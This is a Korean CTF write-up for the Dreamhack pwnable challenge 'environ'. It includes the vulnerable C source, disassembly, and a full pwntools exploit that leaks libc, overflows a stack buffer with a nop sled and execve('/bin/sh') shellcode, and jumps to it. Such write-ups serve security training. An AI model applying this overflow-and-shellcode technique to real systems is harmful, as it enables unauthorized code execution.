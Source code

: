 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN environ"
excerpt: "드림핵 포너블 environ 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
timezone: Asia/Seoul
date: 2022-12-20 17:30
---
```


오랜만에 풀어보는 시스템 해킹이다.

environ을 간단히 설명해보면 프로그램이 동작할 떄 시스템의 환경변수를 참조해야할 경우가 있다. 이때 사용하는 것이 environ 포인터인데 이는 시스템의 환경변수를 가리키며 로더의 초기화 함수에 의해 초기화 된다.

이번 문제의 코드를 살펴보면 다음과 같다
```c
int main()
{
    char buf[16];
    size_t size;
    long value;
    void (*jump)();

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    printf("Data: ");
    read(0, buf, size);

    printf("*jmp=");
    scanf("%ld", &value);

    jump = *(long *)value;
    jump();

    return 0;
}
```

stdout의 주소값을 출력해주고 입력받은 사이즈 만큼 buf에 쓰고 value의 주소를 정해줘 해당 주소로 점프해 어셈블리 코드를 실행하게 된다. 

바이너리에 걸린 보안 기술을 보면 다음과 같다
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
stack canary가 적용되어 있지만 이를 체크하기 전에 쉘 코드가 실행되어 크게 신경쓸 부분은 아닌것 같다.

우선 해당 바이너리를 익스하기 위해 stdout주소에서 stdout offset의 차를 구해 libc base주소를 구한다. 이후 해당 libc base주소에 environ offset을 더해 바이너리의 environ주소를 구한다. 다음으로 buf를 오버플로우 시켜 environ 영역에 쉘 코드를 삽입하고 해당 주소로 점프하면 쉘을 구할 수 있다.

main함수의 어셈블리를 살펴보자
```c
0x000000000040089a <+0>:     push   rbp
   0x000000000040089b <+1>:     mov    rbp,rsp
   0x000000000040089e <+4>:     sub    rsp,0x40
   0x00000000004008a2 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x00000000004008ab <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008af <+21>:    xor    eax,eax
   0x00000000004008b1 <+23>:    mov    eax,0x0
   0x00000000004008b6 <+28>:    call   0x40083e <initialize>
   0x00000000004008bb <+33>:    mov    rax,QWORD PTR [rip+0x2007be]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c2 <+40>:    mov    rsi,rax
   0x00000000004008c5 <+43>:    mov    edi,0x400a0d
   0x00000000004008ca <+48>:    mov    eax,0x0
   0x00000000004008cf <+53>:    call   0x4006a0 <printf@plt>
   0x00000000004008d4 <+58>:    mov    edi,0x400a19
   0x00000000004008d9 <+63>:    mov    eax,0x0
   0x00000000004008de <+68>:    call   0x4006a0 <printf@plt>
   0x00000000004008e3 <+73>:    lea    rax,[rbp-0x38]
   0x00000000004008e7 <+77>:    mov    rsi,rax
   0x00000000004008ea <+80>:    mov    edi,0x400a20
   0x00000000004008ef <+85>:    mov    eax,0x0
   0x00000000004008f4 <+90>:    call   0x400700 <__isoc99_scanf@plt>
   0x00000000004008f9 <+95>:    mov    edi,0x400a24
   0x00000000004008fe <+100>:   mov    eax,0x0
   0x0000000000400903 <+105>:   call   0x4006a0 <printf@plt>
   0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x000000000040090c <+114>:   lea    rax,[rbp-0x20]
   0x0000000000400910 <+118>:   mov    rsi,rax
   0x0000000000400913 <+121>:   mov    edi,0x0
   0x0000000000400918 <+126>:   call   0x4006c0 <read@plt>
   0x000000000040091d <+131>:   mov    edi,0x400a2b
   0x0000000000400922 <+136>:   mov    eax,0x0
   0x0000000000400927 <+141>:   call   0x4006a0 <printf@plt>
   0x000000000040092c <+146>:   lea    rax,[rbp-0x30]
   0x0000000000400930 <+150>:   mov    rsi,rax
   0x0000000000400933 <+153>:   mov    edi,0x400a20
   0x0000000000400938 <+158>:   mov    eax,0x0
   0x000000000040093d <+163>:   call   0x400700 <__isoc99_scanf@plt>
   0x0000000000400942 <+168>:   mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400946 <+172>:   mov    rax,QWORD PTR [rax]
   0x0000000000400949 <+175>:   mov    QWORD PTR [rbp-0x28],rax
   0x000000000040094d <+179>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400951 <+183>:   mov    eax,0x0
   0x0000000000400956 <+188>:   call   rdx
   0x0000000000400958 <+190>:   mov    eax,0x0
   0x000000000040095d <+195>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400961 <+199>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040096a <+208>:   je     0x400971 <main+215>
   0x000000000040096c <+210>:   call   0x400690 <__stack_chk_fail@plt>
   0x0000000000400971 <+215>:   leave  
   0x0000000000400972 <+216>:   ret 
```

stdout을 통해 libc base 주소를 구하는 것은 어렵지 않다.
pwntools을 이용하면 된다. 출력된 주소 - libc.symbols["_IO_2_1_stdout_"]를 이용하면 쉽게 구할 수 있다. 가장 중요한 것은 buf의 위치와 environ 위치의 offset을 구해야 하는데 gdb 상에서 살펴보면 read 함수에서 받아 저장할 위치는 rbp-0x20이라고 되어있다.

```c
0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
```

이부분의 주소값과 environ의 주소값의 차를 구하고 쉘코드의 길이를 더한 만큼 오버플로우 시켜야 한다.

그러면 buf와 environ의 offset 만큼의 nop코드로 채운 후 쉘코드를 삽입하고 이로 건너뛰는 시나리오가 될 것이다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 17150);
libc = ELF("./libc.so.6")
#c = process("./environ")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

shell = asm(shellcraft.execve("/bin/sh"))

c.recvuntil(b"stdout: ")
stdout = int(str(c.recvline()[:-1]).replace("b", "").replace("'", ''), 16)
print(f"stdout : {hex(stdout)}")

stdoutOffset = libc.symbols["_IO_2_1_stdout_"]
libcBase = stdout-stdoutOffset
print(f"libc base : {hex(libcBase)}")
print(f"libc offset : {hex(stdoutOffset)}")

envAddr = libcBase+libc.symbols["environ"]
print(f"environ addr : {hex(envAddr)}")
bufToenvOffset = 0x148
print(f"Buffer to environ addr offset : {hex(bufToenvOffset)}")

c.recvuntil(b"Size: ")
c.sendline(str(bufToenvOffset+len(shell)))

c.recvuntil(b"Data: ")
c.sendline(b"\x90"*bufToenvOffset+shell)

c.recvuntil(b"*jmp=")
c.sendline(str(envAddr))

c.interactive()
```

위 코드를 통해 익스플로잇이 가능하다. 